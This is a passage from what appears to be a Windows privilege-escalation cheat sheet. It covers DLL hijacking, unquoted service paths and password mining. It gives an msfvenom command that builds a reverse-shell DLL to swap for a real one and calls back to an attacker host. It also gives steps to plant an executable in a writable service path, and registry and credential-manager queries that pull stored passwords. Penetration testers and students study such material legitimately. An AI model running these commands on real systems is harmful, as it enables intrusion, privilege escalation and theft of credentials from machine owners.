 ### Create dll with msfvenom and replace original file
```
msfvenom -p windows/shell/reverse_tcp lhost=<lhost> lport=<lport> -f dll -o <name>.dll
```


## Unquoted Service Paths
### Get unquoted service paths
```
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v """
```

### Check folder permissions (look for F (Full) under Everyone)
```
icacls "C:\Program Files (x86)\<path> "
```

### Place exe file
```
C:\Program Files (x86)\<path>.exe
```

### Restart service (alternatively reboot)
```
sc stop "<serviceName>"
sc start "<serviceName>"
```


## Password Mining
### Autologon registry entries
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"
```

### Credential manager
```
cmdkey /list
dir C:\Users\%username%\AppData\Local\Microsoft\Credentials\
dir C:\Users\%username%\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\%username%\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\%username%\AppData\Roaming\Microsoft\Credentials\
```
